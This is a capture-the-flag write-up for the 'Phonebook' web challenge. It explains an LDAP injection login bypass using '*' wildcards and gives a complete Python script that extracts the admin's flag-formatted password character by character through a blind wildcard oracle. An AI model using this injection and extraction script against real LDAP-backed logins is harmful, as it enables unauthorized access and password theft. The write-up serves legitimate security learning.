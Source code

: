 ## Phonebook

Phonebook is a web app that showed a login page first. There is a hint 'You can now login using the workstation username and password! - Reese' what points to ldap. I tried the simplest injection (https://www.synopsys.com/glossary/what-is-ldap-injection.html) - by setting username and password as '*' and it worked. The phonebook page opened and I searched few queries, but there was nothing useful here. 
The next thought was - If Reese has configured ldap she (or he) is admin and maybe I have to find out his password (Actually I first tried to find her phone in the list, but it wasn't useful). So I tried flag-formatted password 'HTB{*}' with 'Reese' username and it worked. Up to this point I've tried many passwords and haven't been blocked, so I decided to write bruteforce script.

```python
import requests
import string
import time

def retry(func):
    n = 3
    def wrapper(*args, **kwargs):
        last_exc = None
        for i in range(n):
            try:
                return func(*args, **kwargs)
            except OSError as e:
                last_exc = e
                if i != n - 1:
                  time.sleep(1)
                continue
        raise last_exc


    return wrapper


url = 'http://46.101.21.240:30672/login' 

password = 'HTB{'

alphabet = set(list(string.ascii_letters))
alphabet = alphabet.union(set(list(string.digits)))
# without * coz it wildcard
alphabet = alphabet.union(set(list(string.punctuation))).difference({'*'})

data = {'username': 'Reese', 'password': password}

@retry
def try_password(password):
    data['password'] = password
    r = requests.post(url, data=data, allow_redirects=False)
    # / - correct password, /login?message=Authentication failed - incorrect
    return r.headers.get('location') == '/'

def brute_symbol(password):
    for ch in alphabet:
        if try_password(password + ch + '*'):
            return password + ch

while True:
  password = brute_symbol(password)
  assert password is not None
  print(password)
  if password[-1] == '}' and try_password(password):
      break
```
